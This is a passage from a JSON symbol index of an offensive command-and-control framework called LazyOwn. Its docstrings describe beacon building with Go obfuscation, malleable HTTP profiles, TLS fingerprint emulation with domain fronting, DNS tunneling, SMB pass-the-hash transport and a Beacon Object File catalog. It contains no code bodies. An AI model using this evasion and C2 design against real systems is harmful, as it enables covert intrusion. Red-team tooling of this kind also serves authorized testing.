"function", "line": 607, "name": "bitm_harvest_stats", "signature": "def bitm_harvest_stats()"}, {"doc": "Force-kill all BitM processes and remove the state file.\n\nReturns:\n    Dict with cleanup status.", "kind": "function", "line": 642, "name": "bitm_cleanup", "signature": "def bitm_cleanup()"}, {"doc": "CLI entry point — display BitM status from command line.", "kind": "function", "line": 661, "name": "main", "signature": "def main()"}]}, {"doc": "Beacon Object File (BOF) registry and marketplace for LazyOwn.  Catalogs, indexes, and manages BOFs compatible with the TrustedSec SA BOF API. Supports both Windows COFF BOFs (Cobalt Strike compatible) and Linux ELF BOFs (BlacksandBeacon). Provides search, install, info, and update operations against a curated catalog.  The catalog is a static index of known BOFs with metadata: name, description, author, repository URL, compatible platforms, required arguments, MITRE ATT&CK technique references, and SHA-256 hashes.  Contracts: - BofEntry: immutable dataclass representing one BOF - BofCatalog: curated catalog of known BOFs - BofRegistry: manages installed BOFs on disk with version tracking - BofMarketplace: search/install/uninstall/info operations - BofValidator: validates BOF integrity (hash check, platform compatibility)  Design (SOLID): - Single Responsibility: catalog, registry, marketplace, and validation are separate classes with distinct concerns. - Open/Closed: new BOFs added via BofCatalog.register() without modifying the marketplace class. - Liskov: disk registry and in-memory catalog share no interface contract. - Interface Segregation: search, install, and validate are separate concerns. - Dependency Inversion: marketplace depends on catalog + registry abstractions.  Usage: from modules.bof_registry import BofMarketplace", "id": "modules/bof_registry.py", "kind": "module", "label": "bof_registry.py", "language": "py", "sha256": "22d567ebe36b60a4", "symbol_count": 43, "symbols": [{"doc": "Target platform for a Beacon Object File.", "kind": "class", "line": 61, "name": "BofPlatform", "signature": "class BofPlatform(str, Enum)"}, {"doc": "Functional category of a BOF.", "kind": "class", "line": 68, "name": "BofCategory", "signature": "class BofCategory(str, Enum)"}, {"doc": "Immutable catalog entry for a single Beacon Object File.\n\nAttributes:\n    name: Unique identifier (e.g., 'ldap_enum').\n    description: Human-readable description.\n    author: Author or organization.\n    url: Repository URL.\n    source_file: Relative path to the C source file in the repo.\n    platform: Target platform for the compiled BOF.\n    category: Functional category.\n    required_args: List of required argument names.\n    optional_args: List of optional argument names.\n    mitre_technique: MITRE ATT&CK technique ID (e.g., 'T1018').\n    sha256: SHA-256 hash of the canonical source file (empty until audited).\n    min_beacon_version: Minimum beacon version required.\n    dependencies: List of dependency BOF names.", "kind": "class", "line": 85, "name": "BofEntry", "signature": "class BofEntry"}, {"doc": "Curated catalog of known Beacon Object Files.\n\nThe catalog is a static index maintained by the LazyOwn team. Entries\nare added via ``register()`` and persisted to disk as JSON for sharing\nbetween operator sessions.", "kind": "class", "line": 157, "name": "BofCatalog", "signature": "class BofCatalog"}, {"doc": "Build the default curated BOF catalog.\n\nThis catalog includes well-known open-source BOFs compatible with\nthe TrustedSec SA BOF API. Maintainers should add verified entries\nto this function.", "kind": "function", "line": 265, "name": "_build_default_catalog", "signature": "def _build_default_catalog()"}, {"doc": "Validates BOF integrity and compatibility.\n\nChecks SHA-256 hashes of downloaded source files against the\ncatalog, verifies platform compatibility, and validates that\nrequired arguments are supplied.", "kind": "class", "line": 506, "name": "BofValidator", "signature": "class BofValidator"}, {"doc": "Manages BOF installations on disk with version tracking.\n\nEach installed BOF is tracked in a manifest JSON file with the\ninstallation timestamp, BOF version, and source URL.", "kind": "class", "line": 552, "name": "BofRegistry", "signature": "class BofRegistry"}, {"doc": "BOF discovery, installation, and management interface.\n\nComposes a BofCatalog (curated index) and a BofRegistry (disk\nstate) to provide search/install/uninstall/info operations.\n\nAttributes:\n    catalog: The curated BOF catalog.\n    registry: The disk-backed BOF registry.\n    validator: The BOF hash/args validator.", "kind": "class", "line": 639, "name": "BofMarketplace", "signature": "class BofMarketplace"}, {"doc": "Serialize to dictionary.", "kind": "method", "line": 118, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build from a dictionary.", "kind": "method", "line": 137, "name": "from_dict", "signature": "def from_dict(cls, raw)"}, {"doc": "Register a BOF entry in the catalog.", "kind": "method", "line": 167, "name": "register", "signature": "def register(self, entry)"}, {"doc": "Register multiple BOF entries at once.", "kind": "method", "line": 172, "name": "register_many", "signature": "def register_many(self, entries)"}, {"doc": "Retrieve a BOF entry by name.\n\nRaises KeyError if not found.", "kind": "method", "line": 177, "name": "get", "signature": "def get(self, name)"}, {"doc": "Search catalog by keyword across name, description, and technique.\n\nArgs:\n    query: Case-insensitive search keyword.\n\nReturns:\n    List of matching BofEntry objects, sorted by relevance.", "kind": "method", "line": 188, "name": "search", "signature": "def search(self, query)"}, {"doc": "Return all BOFs in a specific category.", "kind": "method", "line": 221, "name": "list_by_category", "signature": "def list_by_category(self, category)"}, {"doc": "Return all BOFs for a specific platform.", "kind": "method", "line": 225, "name": "list_by_platform", "signature": "def list_by_platform(self, platform)"}, {"doc": "Return all catalog entries sorted by name.", "kind": "method", "line": 229, "name": "list_all", "signature": "def list_all(self)"}, {"doc": "Serialize the entire catalog to a dictionary.", "kind": "method", "line": 233, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a catalog from a dictionary.", "kind": "method", "line": 241, "name": "from_dict", "signature": "def from_dict(cls, raw)"}, {"doc": "Load a catalog from a JSON file.", "kind": "method", "line": 249, "name": "load", "signature": "def load(cls, path)"}, {"doc": "Save the catalog to a JSON file.", "kind": "method", "line": 257, "name": "save", "signature": "def save(self, path)"}, {"doc": "Compute the SHA-256 hash of a file.", "kind": "method", "line": 515, "name": "compute_sha256", "signature": "def compute_sha256(filepath)"}, {"doc": "Verify the SHA-256 of a downloaded BOF source matches the catalog.\n\nReturns (ok, reason). If entry.sha256 is empty, verification is\nskipped with an informational message.", "kind": "method", "line": 524, "name": "verify_entry", "signature": "def verify_entry(entry, filepath)"}, {"doc": "Validate that all required arguments are supplied.\n\nReturns a list of missing argument names (empty = valid).", "kind": "method", "line": 540, "name": "validate_args", "signature": "def validate_args(entry, args)"}, {"kind": "method", "line": 559, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Return the BOF installation directory.", "kind": "method", "line": 565, "name": "install_dir", "signature": "def install_dir(self)"}, {"doc": "Load the installation manifest from disk.", "kind": "method", "line": 569, "name": "_load_manifest", "signature": "def _load_manifest(self)"}, {"doc": "Save the installation manifest to disk.", "kind": "method", "line": 580, "name": "_save_manifest", "signature": "def _save_manifest(self, manifest)"}, {"doc": "Return True if a BOF is installed.", "kind": "method", "line": 585, "name": "is_installed", "signature": "def is_installed(self, name)"}, {"doc": "Register a BOF as installed with current timestamp.\n\nReturns the install directory for this BOF.", "kind": "method", "line": 590, "name": "install", "signature": "def install(self, entry)"}, {"doc": "Unregister a BOF from the manifest and optionally remove its files.\n\nReturns True if the BOF was installed and successfully removed.", "kind": "method", "line": 611, "name": "uninstall", "signature": "def uninstall(self, name, remove_files)"}, {"doc": "Return a list of all installed BOFs with metadata.", "kind": "method", "line": 628, "name": "list_installed", "signature": "def list_installed(self)"}, {"doc": "Return installation metadata for a BOF, or None if not installed.", "kind": "method", "line": 633, "name": "get_install_info", "signature": "def get_install_info(self, name)"}, {"kind": "method", "line": 651, "name": "__init__", "signature": "def __init__(self, sessions_dir, catalog)"}, {"doc": "Return the catalog.", "kind": "method", "line": 662, "name": "catalog", "signature": "def catalog(self)"}, {"doc": "Return the registry.", "kind": "method", "line": 667, "name": "registry", "signature": "def registry(self)"}, {"doc": "Search the catalog and return enriched results with install status.\n\nArgs:\n    query: Search keyword (name, description, technique, category).\n\nReturns:\n    List of dicts with BOF metadata plus `installed` flag.", "kind": "method", "line": 671, "name": "search", "signature": "def search(self, query)"}, {"doc": "Get detailed information about a BOF by name.\n\nIncludes catalog metadata plus install state.\nReturns a dict with 'error' key if not found.", "kind": "method", "line": 690, "name": "info", "signature": "def info(self, name)"}, {"doc": "Install a BOF from the catalog by name.\n\nRegisters the BOF in the disk manifest. Does NOT clone\nthe source repository; the operator is expected to have\nthe catalog repository already cloned, or use a separate\ninstall step for source retrieval.\n\nReturns a dict with status information.", "kind": "method", "line": 707, "name": "install", "signature": "def install(self, name)"}, {"doc": "Uninstall a BOF by name.\n\nReturns a dict with uninstall status.", "kind": "method", "line": 736, "name": "uninstall", "signature": "def uninstall(self, name)"}, {"doc": "List all installed BOFs with catalog enrichment.", "kind": "method", "line": 749, "name": "list_installed", "signature": "def list_installed(self)"}, {"doc": "Return a list of dependencies for a BOF that are not installed.", "kind": "method", "line": 761, "name": "list_missing_dependencies", "signature": "def list_missing_dependencies(self, name)"}, {"doc": "Install multiple BOFs at once.\n\nReturns a dict mapping BOF name to result dict.", "kind": "method", "line": 769, "name": "bulk_install", "signature": "def bulk_install(self, names)"}]}, {"doc": "C2 agent builder with profile-driven compilation and safe templating.  Extracted from ``LazyOwnShell.do_c2`` to reduce the 520-line god-method into a testable, profile-driven builder.", "id": "modules/c2_builder.py", "kind": "module", "label": "c2_builder.py", "language": "py", "sha256": "eb6a1a44c25954e0", "symbol_count": 21, "symbols": [{"doc": "Return the full path to the go binary.\n\nChecks shutil.which first, then known installation directories.\nReturns the bare name 'go' as a last resort so error messages stay readable.", "kind": "function", "line": 44, "name": "_resolve_go_bin", "signature": "def _resolve_go_bin()"}, {"doc": "Guarantee a go binary is available, installing via apt if needed.\n\nReturns the resolved path to go so callers can build explicit commands.", "kind": "function", "line": 59, "name": "_ensure_go", "signature": "def _ensure_go(cmd_fn)"}, {"doc": "Compilation profile for a target platform.", "kind": "class", "line": 76, "name": "C2Profile", "signature": "class C2Profile"}, {"doc": "Check that all required external binaries are present.", "kind": "function", "line": 160, "name": "_preflight", "signature": "def _preflight(profile)"}, {"doc": "Render a template by replacing {key} placeholders with context values.", "kind": "function", "line": 169, "name": "_render_template", "signature": "def _render_template(content, context)"}, {"doc": "Collect disposable redirector URLs for the Go beacon fallback list.\n\nSources, in order: ``c2_fallback_urls`` param (list or comma string),\n``sessions/redirectors.json`` state, and ``cf.log`` quick-tunnel URLs.\n\nArgs:\n    params: Live shell params dict.\n\nReturns:\n    Deduplicated fallback URL list.", "kind": "function", "line": 180, "name": "_resolve_fallback_urls", "signature": "def _resolve_fallback_urls(params)"}, {"doc": "Format URLs as a Go string slice body.\n\nArgs:\n    urls: URL list.\n\nReturns:\n    Go source fragment like ``\"a\", \"b\"`` or ``\"\"`` when empty.", "kind": "function", "line": 220, "name": "_go_string_list", "signature": "def _go_string_list(urls)"}, {"doc": "Parse a ``go version`` output line into a version triple.\n\nArgs:\n    text: Raw output such as ``go version go1.26.5 linux/amd64``.\n\nReturns:\n    ``(major, minor, patch)`` triple, or None when unparseable.", "kind": "function", "line": 234, "name": "_parse_go_version", "signature": "def _parse_go_version(text)"}, {"doc": "Run a command in list form and return stripped stdout.\n\nArgs:\n    argv: Argument vector, never a shell string.\n    timeout: Seconds before aborting.\n\nReturns:\n    Stripped stdout on success, None on any failure.", "kind": "function", "line": 249, "name": "_command_output", "signature": "def _command_output(argv, timeout)"}, {"doc": "Report the Go toolchain version that built a binary.\n\nUses ``go version <file>``, which prints the compiler version stamped\ninto the binary at build time.\n\nArgs:\n    go_bin: Go binary used to query.\n    target: Binary to inspect (``go`` itself or ``garble``).\n\nReturns:\n    Version triple, or None when it cannot be determined.", "kind": "function", "line": 268, "name": "_go_build_version", "signature": "def _go_build_version(go_bin, target)"}, {"doc": "Check whether garble was built with the current Go toolchain.\n\nA stale garble aborts every build with ``was built with ... can't be\nused with the newer ...``. Go enforces an exact toolchain match, so the\nfull triple is compared before the build starts.\n\nArgs:\n    go_bin: Current Go binary.\n    garble_bin: Garble binary to validate.\n\nReturns:\n    True when versions match exactly or cannot be determined.", "kind": "function", "line": 287, "name": "_garble_matches_toolchain", "signature": "def _garble_matches_toolchain(go_bin, garble_bin)"}, {"doc": "Build the three Go compile commands for the beacon pipeline.\n\nEvery command is prefixed with ``cd <sessions> &&`` so the shell\ndispatcher routes it through ``bash -c``. A bare ``CGO_ENABLED=0 ...``\nprefix would otherwise be split as an argv and fail with\n``FileNotFoundError: 'CGO_ENABLED=0'``.\n\nArgs:\n    sessions_dir: Sessions directory for the build working copy.\n    profile: Target platform profile with goos/goarch/cc/cgo/loader.\n    gocompiler: Compiler command prefix (garble or plain go).\n    compile_flags: ldflags fragment.\n    main_out: Output path of the main beacon binary.\n    main_src: Main beacon source file.\n    listener_out: Output path of the listener binary.\n    listener_src: Listener source file.\n    monitor_out: Output path of the monitor binary.\n    monitor_src: Monitor source file.\n\nReturns:\n    Tuple of (main, listener, monitor) shell commands.", "kind": "function", "line": 310, "name": "_build_compile_commands", "signature": "def _build_compile_commands(sessions_dir, profile, gocompiler, compile_flags, main_out, main_src, listener_out, listener_src, monitor_out, monitor_src)"}, {"doc": "Backup ``sessions_dir`` before build and restore on failure.", "kind": "function", "line": 361, "name": "_build_context", "signature": "def _build_context(sessions_dir)"}, {"doc": "Build C2 agents for multiple platforms.", "kind": "class", "line": 392, "name": "C2Builder", "signature": "class C2Builder"}, {"kind": "function", "line": 173, "name": "_replacer", "signature": "def _replacer(match)"}, {"kind": "method", "line": 395, "name": "__init__", "signature": "def __init__(self, params, sessions_dir, cmd_fn, onecmd_fn, toastr_fn, c2_user, c2_pass)"}, {"doc": "Validate the Go toolchain before compiling and repair it.\n\nChecks that garble exists, was built with the current Go release\n(a stale garble aborts with ``can't be used with the newer ...``),\nand that a C compiler is available when the profile needs CGO.\nA stale garble is reinstalled automatically; when repair fails the\nbuild falls back to plain ``go build`` instead of aborting.\n\nArgs:\n    go_bin: Resolved Go binary.\n    garble_bin: Resolved garble binary path.\n    gocompiler: Current compiler command prefix.\n    profile: Target platform profile.\n\nReturns:\n    Usable compiler command prefix.", "kind": "method", "line": 413, "name": "_ensure_garble_toolchain", "signature": "def _ensure_garble_toolchain(self, go_bin, garble_bin, gocompiler, profile)"}, {"doc": "Execute the full C2 build pipeline.\n\nReturns a dict with build artefacts and metadata so the caller can\nupdate shell state (``c2_url``, ``c2_clientid``, ``c2_auth``).", "kind": "method", "line": 453, "name": "run", "signature": "def run(self, line, choice, use_tunnel)"}, {"kind": "function", "line": 641, "name": "_read", "signature": "def _read(path_)"}, {"kind": "function", "line": 648, "name": "_read_required", "signature": "def _read_required(path_)"}, {"kind": "function", "line": 652, "name": "_write", "signature": "def _write(path_, content)"}]}, {"id": "modules/c2_messaging_base.py", "kind": "module", "label": "c2_messaging_base.py", "language": "py", "sha256": "a17e8d174a7fd74c", "symbol_count": 13, "symbols": [{"doc": "Unified session manager for C2 messaging bots.\n\nProvides login, rate limiting, lockout, and session validation\nshared across Discord, Telegram, and Slack C2 bots.\n\nArgs:\n    max_failed_attempts: Maximum failed login attempts before lockout.\n    lockout_duration: Lockout duration in seconds.\n    rate_limit: Maximum commands per 60-second window.\n    session_timeout: Session inactivity timeout in seconds.", "kind": "class", "line": 9, "name": "SecureSessionManager", "signature": "class SecureSessionManager"}, {"doc": "Adapter that wraps payload.json dict with attribute access.\n\nArgs:\n    config_dict: The loaded payload.json dictionary.", "kind": "class", "line": 117, "name": "PayloadConfigAdapter", "signature": "class PayloadConfigAdapter"}, {"kind": "method", "line": 22, "name": "__init__", "signature": "def __init__(self, max_failed_attempts, lockout_duration, rate_limit, session_timeout)"}, {"doc": "Record a failed authentication attempt for a user.", "kind": "method", "line": 37, "name": "register_failed_attempt", "signature": "def register_failed_attempt(self, user_id)"}, {"doc": "Check if a user is currently locked out due to failed attempts.\n\nReturns:\n    bool: True if locked out, False otherwise.", "kind": "method", "line": 46, "name": "check_lockout", "signature": "def check_lockout(self, user_id)"}, {"doc": "Check if a user has exceeded the command rate limit.\n\nReturns:\n    bool: True if allowed, False if rate-limited.", "kind": "method", "line": 61, "name": "check_rate_limit", "signature": "def check_rate_limit(self, user_id)"}, {"doc": "Create a new authenticated session for a user.", "kind": "method", "line": 79, "name": "create_session", "signature": "def create_session(self, user_id, client_id)"}, {"doc": "Check if a user session is still valid and refresh activity timestamp.\n\nReturns:\n    bool: True if session is valid, False otherwise.", "kind": "method", "line": 89, "name": "validate_session", "signature": "def validate_session(self, user_id)"}, {"doc": "Assign a target C2 client to a user session.", "kind": "method", "line": 106, "name": "set_client", "signature": "def set_client(self, user_id, client_id)"}, {"doc": "Get the target C2 client assigned to a user session.", "kind": "method", "line": 111, "name": "get_client", "signature": "def get_client(self, user_id)"}, {"kind": "method", "line": 124, "name": "__init__", "signature": "def __init__(self, config_dict)"}, {"kind": "method", "line": 129, "name": "__getitem__", "signature": "def __getitem__(self, key)"}, {"kind": "method", "line": 132, "name": "get", "signature": "def get(self, key, default)"}]}, {"doc": "modules/c2_profile.py ====================== Malleable C2 profile system for LazyOwn.  Controls beacon HTTP behavior: headers, URIs, sleep timing, jitter, user-agent, and staging configuration.  Architecture follows SOLID principles: - Single Responsibility: each class handles one concern - Open/Closed: new profiles registered without modifying existing code - Liskov: dataclasses are safely substitutable - Interface Segregation: ProfileApplier separates Flask/requests concerns - Dependency Inversion: loaders/validators depend on abstractions (dicts/paths)  Usage: from modules.c2_profile import get_profile, list_profiles, get_registry  profile = get_profile(\"stealth\") delay   = profile.jitter_delay() headers = profile.build_headers(\"GET\") uri     = profile.get_uri(\"POST\")  CLI: python3 modules/c2_profile.py --list python3 modules/c2_profile.py --show stealth", "id": "modules/c2_profile.py", "kind": "module", "label": "c2_profile.py", "language": "py", "sha256": "7288b53d65146042", "symbol_count": 32, "symbols": [{"doc": "Sleep and jitter configuration for a beacon.", "kind": "class", "line": 54, "name": "SleepConfig", "signature": "class SleepConfig"}, {"doc": "HTTP request configuration for one direction (GET or POST).", "kind": "class", "line": 62, "name": "HttpConfig", "signature": "class HttpConfig"}, {"doc": "Staging payload configuration.", "kind": "class", "line": 72, "name": "StagerConfig", "signature": "class StagerConfig"}, {"doc": "Complete malleable C2 profile.\n\nEncapsulates all behavioral parameters that govern how a beacon\ncommunicates over HTTP.", "kind": "class", "line": 81, "name": "C2Profile", "signature": "class C2Profile"}, {"doc": "Validates a C2Profile instance.\n\nReturns a list of error strings; an empty list means the profile is valid.", "kind": "class", "line": 155, "name": "ProfileValidator", "signature": "class ProfileValidator"}, {"doc": "Loads and saves C2Profile objects from/to YAML or dict representations.\n\nDepends on PyYAML when loading YAML files; falls back with a clear error\nif PyYAML is not installed.", "kind": "class", "line": 187, "name": "ProfileLoader", "signature": "class ProfileLoader"}, {"kind": "function", "line": 308, "name": "_make_default_profile", "signature": "def _make_default_profile()"}, {"kind": "function", "line": 339, "name": "_make_stealth_profile", "signature": "def _make_stealth_profile()"}, {"kind": "function", "line": 385, "name": "_make_aggressive_profile", "signature": "def _make_aggressive_profile()"}, {"kind": "function", "line": 410, "name": "_make_debug_profile", "signature": "def _make_debug_profile()"}, {"doc": "In-memory registry of named C2Profile objects.\n\nRegister custom profiles at runtime, or load an entire directory of\nYAML files.", "kind": "class", "line": 449, "name": "ProfileRegistry", "signature": "class ProfileRegistry"}, {"doc": "Applies a C2Profile to Flask responses or requests.Session objects.\n\nThis class has no state; all methods are pure functions of their\narguments.", "kind": "class", "line": 520, "name": "ProfileApplier", "signature": "class ProfileApplier"}, {"doc": "Return the module-level singleton ProfileRegistry.\n\nOn first call, registers the four built-in profiles and then scans the\ndefault profiles directory for additional YAML files.", "kind": "function", "line": 595, "name": "get_registry", "signature": "def get_registry()"}, {"doc": "Return the named profile from the module singleton registry.", "kind": "function", "line": 620, "name": "get_profile", "signature": "def get_profile(name)"}, {"doc": "Return a sorted list of all registered profile names.", "kind": "function", "line": 625, "name": "list_profiles", "signature": "def list_profiles()"}, {"doc": "Return the next sleep delay as a float in seconds.\n\nThe delay is interval_ms/1000 scaled by a random multiplier in\n[1 - jitter_pct/100 , 1 + jitter_pct/100].", "kind": "method", "line": 101, "name": "jitter_delay", "signature": "def jitter_delay(self)"}, {"doc": "Pick a random URI path from the appropriate HttpConfig.\n\nParameters\n----------\nmethod : \"GET\" or \"POST\" (case-insensitive)", "kind": "method", "line": 117, "name": "get_uri", "signature": "def get_uri(self, method)"}, {"doc": "Return the headers dict for the given HTTP method.\n\nThe returned dict is a shallow copy; callers may mutate it freely.", "kind": "method", "line": 128, "name": "build_headers", "signature": "def build_headers(self, method)"}, {"kind": "method", "line": 144, "name": "_config_for", "signature": "def _config_for(self, method)"}, {"kind": "method", "line": 162, "name": "validate", "signature": "def validate(self, profile)"}, {"doc": "Load a C2Profile from a YAML file at *path*.", "kind": "method", "line": 200, "name": "from_yaml", "signature": "def from_yaml(path)"}, {"doc": "Construct a C2Profile from a plain Python dictionary.", "kind": "method", "line": 215, "name": "from_dict", "signature": "def from_dict(d)"}, {"doc": "Convert a C2Profile to a plain Python dictionary.", "kind": "method", "line": 254, "name": "to_dict", "signature": "def to_dict(profile)"}, {"doc": "Serialise *profile* to a YAML file and return the written path.", "kind": "method", "line": 282, "name": "save", "signature": "def save(profile, path)"}, {"kind": "method", "line": 457, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Register *profile* under *name*, overwriting any previous entry.", "kind": "method", "line": 464, "name": "register", "signature": "def register(self, name, profile)"}, {"doc": "Return the profile registered under *name*.\n\nRaises KeyError if no such profile exists.", "kind": "method", "line": 473, "name": "get", "signature": "def get(self, name)"}, {"doc": "Return a sorted list of all registered profile names.", "kind": "method", "line": 485, "name": "list_names", "signature": "def list_names(self)"}, {"doc": "Scan *path* for *.yaml files and register each as a profile.\n\nReturns the count of successfully loaded profiles.", "kind": "method", "line": 493, "name": "load_from_directory", "signature": "def load_from_directory(self, path)"}, {"doc": "Patch the headers of a Flask response object to match the profile.\n\nSets appropriate Cache-Control and removes server-identifying headers.\nThe response object is mutated in-place and also returned.", "kind": "method", "line": 529, "name": "apply_to_response", "signature": "def apply_to_response(profile, response)"}, {"doc": "Configure a requests.Session to mimic the profile's HTTP GET behavior.\n\nSets headers and User-Agent on *session* and returns it.", "kind": "method", "line": 554, "name": "apply_to_session", "signature": "def apply_to_session(profile, session)"}, {"doc": "Return a JSON-serialisable dict suitable for embedding in a beacon\nhandshake response.\n\nThe dict contains only the fields a beacon needs to self-configure;\nit does not expose full header details.", "kind": "method", "line": 567, "name": "get_beacon_config", "signature": "def get_beacon_config(profile)"}]}, {"doc": "Extended malleable C2 profile engine with TLS, DNS, SMB, and WebSocket transports.  Complements ``modules/c2_profile.py`` by adding transport-layer profile types and profile rotation. The base module handles HTTP profiles; this module extends to the full transport stack required by modern C2 frameworks.  Contracts: - C2TransportProfile: base dataclass for transport profiles - TlsProfile: TLS 1.2/1.3 cipher suites, JA3/JA4 fingerprinting config - DnsProfile: DNS beacon configuration (A/AAAA/TXT, encoding, jitter) - SmbProfile: SMB peer-to-peer named pipe beacon config - WebSocketProfile: WebSocket transport with compression and masking - ProfileRotator: round-robin profile rotation with cooldown windows - ProfileEngine: composition root combining HTTP profiles from c2_profile.py with transport profiles defined here  Design (SOLID): - Single Responsibility: each class handles one transport concern - Open/Closed: new transports registered via dataclass without modifying engine - Liskov: all transport profiles are safely substitutable dataclasses - Interface Segregation: each profile exposes only its own config surface - Dependency Inversion: engine depends on abstract profile dicts, not on Flask  Usage: from modules.c2_profile_engine import ( ProfileEngine, TlsProfile, DnsProfile, SmbProfile, WebSocketProfile,", "id": "modules/c2_profile_engine.py", "kind": "module", "label": "c2_profile_engine.py", "language": "py", "sha256": "dd6980733e2a3d8e", "symbol_count": 47, "symbols": [{"doc": "TLS transport configuration for HTTPS and WSS C2 channels.\n\nAttributes:\n    enabled: Whether TLS is active for this transport.\n    min_version: Minimum TLS version string ('1.2' or '1.3').\n    max_version: Maximum TLS version string.\n    cipher_suites: Ordered list of cipher suite names.\n    sni_hostname: Server Name Indication value (domain fronting).\n    certificate_path: Path to custom TLS certificate PEM file.\n    key_path: Path to custom TLS private key PEM file.\n    ja3_fingerprint_library: Browser library to emulate for JA3.\n    grease_extensions: Whether to include GREASE TLS extensions.\n    alpn_protocols: Application-Layer Protocol Negotiation values.", "kind": "class", "line": 117, "name": "TlsProfile", "signature": "class TlsProfile"}, {"doc": "DNS tunneling beacon configuration.\n\nControls how the DNS beacon encodes commands and results in DNS\nqueries, including encoding scheme, domain structure, and timing.\n\nAttributes:\n    enabled: Whether DNS transport is active.\n    domain: Parent domain for DNS queries (sub.<domain>).\n    query_types: Allowed DNS query types.\n    encoding: Data encoding scheme (base32, base64, hex, raw).\n    max_query_length: Maximum length of a single DNS query label.\n    idle_jitter_ms: Jitter in milliseconds between idle queries.\n    poll_interval_ms: Polling interval in milliseconds.\n    ttl_cache_bypass: Use unique subdomains to bypass DNS caching.", "kind": "class", "line": 205, "name": "DnsProfile", "signature": "class DnsProfile"}, {"doc": "SMB peer-to-peer named pipe beacon configuration.\n\nControls the named pipe path, authentication mechanism, and\nretransmission settings for chained beacon communication over\nSMB named pipes within an internal network.\n\nAttributes:\n    enabled: Whether SMB transport is active.\n    pipe_name: Named pipe path (e.g., '\\\\\\.\\pipe\\MyPipe').\n    domain: Windows domain for authentication.\n    username: SMB authentication username.\n    ntlm_hash: NTLM hash for pass-the-hash authentication.\n    retry_count: Maximum retransmission attempts.\n    retry_interval_ms: Delay between retries in milliseconds.\n    timeout_ms: I/O operation timeout in milliseconds.\n    encrypt_traffic: Whether to request SMB encryption (3.x+).", "kind": "class", "line": 289, "name": "SmbProfile", "signature": "class SmbProfile"}, {"doc": "WebSocket transport configuration for beacon channels.\n\nAttributes:\n    enabled: Whether WebSocket transport is active.\n    protocol: 'ws' or 'wss'.\n    path: URI path for the WebSocket endpoint.\n    origin: Origin header value for the handshake.\n    subprotocols: WebSocket subprotocol list.\n    use_compression: Enable per-message deflate extension.\n    use_masking: Apply client-to-server masking (RFC 6455).\n    heartbeat_interval_ms: Ping/pong heartbeat interval.\n    max_message_size_kb: Maximum inbound message size in KB.", "kind": "class", "line": 349, "name": "WebSocketProfile", "signature": "class WebSocketProfile"}, {"doc": "Enumeration of supported C2 transport types.", "kind": "class", "line": 404, "name": "TransportType", "signature": "class TransportType(Enum)"}, {"doc": "Tracks a profile slot in the rotation queue.\n\nAttributes:\n    name: Human-readable slot name.\n    transport: Transport type this slot activates.\n    last_used_at: Unix timestamp of last activation.\n    cooldown_s: Minimum seconds between activations.", "kind": "class", "line": 414, "name": "RotationSlot", "signature": "class RotationSlot"}, {"doc": "Round-robin profile rotation with cooldown windows.\n\nMaintains a queue of RotationSlot objects and advances the active\nslot on each call to ``rotate()``. Slots that are within their\ncooldown window are skipped automatically.\n\nAttributes:\n    slots: Ordered list of rotation slots.\n    current_index: Index of the currently active slot.", "kind": "class", "line": 441, "name": "ProfileRotator", "signature": "class ProfileRotator"}, {"doc": "Validates transport profile configurations.\n\nChecks for logical inconsistencies such as enabled profiles\nmissing required fields (domain for DNS, pipe name for SMB).", "kind": "class", "line": 503, "name": "ProfileValidator", "signature": "class ProfileValidator"}, {"doc": "Composition root for the extended C2 profile system.\n\nCombines HTTP profiles from ``modules.c2_profile.py`` with transport\nprofiles (TLS, DNS, SMB, WebSocket) defined in this module. Provides\nprofile rotation and validation across all transport layers.\n\nAttributes:\n    tls_profile: Active TLS configuration.\n    dns_profile: Active DNS beacon configuration.\n    smb_profile: Active SMB peer-to-peer configuration.\n    websocket_profile: Active WebSocket configuration.\n    rotator: ProfileRotator instance for auto-rotation.\n    validator: ProfileValidator for transport-level validation.", "kind": "class", "line": 611, "name": "ProfileEngine", "signature": "class ProfileEngine"}, {"doc": "Return cipher suites, resolving library alias if set.", "kind": "method", "line": 144, "name": "get_cipher_suites", "signature": "def get_cipher_suites(self)"}, {"doc": "Compute a JA3 fingerprint hash from the current profile.\n\nReturns an MD5 hex digest simulating what a JA3 fingerprint\nwould look like for this profile's TLS client hello.", "kind": "method", "line": 155, "name": "get_ja3_hash", "signature": "def get_ja3_hash(self)"}, {"doc": "Build a TlsProfile from a configuration dictionary.", "kind": "method", "line": 173, "name": "from_dict", "signature": "def from_dict(raw)"}, {"doc": "Serialize this profile to a plain dictionary.", "kind": "method", "line": 188, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a DNS query subdomain from encoded data and a packet ID.\n\nArgs:\n    data: Raw bytes to encode in the subdomain.\n    packet_id: Sequence number for TTL cache bypass.\n\nReturns:\n    A subdomain string like 'abc123.sessions.mydomain.com'.", "kind": "method", "line": 231, "name": "build_query_subdomain", "signature": "def build_query_subdomain(self, data, packet_id)"}, {"doc": "Build a DnsProfile from a configuration dictionary.", "kind": "method", "line": 261, "name": "from_dict", "signature": "def from_dict(raw)"}, {"doc": "Serialize this profile to a plain dictionary.", "kind": "method", "line": 274, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build an SmbProfile from a configuration dictionary.", "kind": "method", "line": 319, "name": "from_dict", "signature": "def from_dict(raw)"}, {"doc": "Serialize this profile to a plain dictionary.", "kind": "method", "line": 333, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Build a WebSocketProfile from a configuration dictionary.", "kind": "method", "line": 375, "name": "from_dict", "signature": "def from_dict(raw)"}, {"doc": "Serialize this profile to a plain dictionary.", "kind": "method", "line": 389, "name": "to_dict", "signature": "def to_dict(self)"}, {"doc": "Return True if the cooldown window has elapsed.", "kind": "method", "line": 429, "name": "is_available", "signature": "def is_available(self)"}, {"doc": "Mark this slot as just used.", "kind": "method", "line": 436, "name": "touch", "signature": "def touch(self)"}, {"kind": "method", "line": 453, "name": "__init__", "signature": "def __init__(self, slots)"}, {"doc": "Return the currently active rotation slot.", "kind": "method", "line": 460, "name": "current_slot", "signature": "def current_slot(self)"}, {"doc": "Return the transport type of the current slot.", "kind": "method", "line": 465, "name": "transport", "signature": "def transport(self)"}, {"doc": "Advance to the next available slot and return it.\n\nSkips slots still in their cooldown window. If all slots are\non cooldown, the cooldowns are reset and rotation starts fresh.", "kind": "method", "line": 469, "name": "rotate", "signature": "def 